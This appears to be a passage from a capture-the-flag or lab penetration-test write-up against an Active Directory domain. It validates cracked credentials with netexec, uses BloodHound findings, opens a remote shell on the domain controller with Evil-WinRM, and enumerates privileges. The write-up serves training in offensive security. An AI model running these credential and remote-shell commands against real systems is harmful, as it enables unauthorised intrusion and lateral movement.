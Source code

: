```bash
netexec smb 10.0.16.170 -u h.grangon -p '<cracked_password>'
```

Result:
[+] BUILDINGMAGIC.LOCAL\h.grangon:<cracked_password>


### BloodHound Analysis

BloodHound confirmed that `h.grangon` is a member of the **Remote Management Users** group.  
This group membership allows interactive access over WinRM.

### Observations

- The compromise of `h.grangon` represented a significant escalation in access.
    
- Unlike previous users, this account supports **interactive lateral movement** into the domain controller.

--- 

## Lateral Movement – WinRM Access with h.grangon

Since `h.grangon` is a member of the **Remote Management Users** group, 
the account can be used for interactive access over WinRM.

### Gaining a Shell
Using Evil-WinRM with the cracked credentials:

```bash
evil-winrm -i 10.0.16.170 -u h.grangon -p '<cracked_password>'
```

result: 
```bash 
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\h.grangon\Documents>
```

## Privilege Enumeration – h.grangon

With a shell as `h.grangon`, privilege enumeration was performed:

```bash
whoami /priv

SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

--- 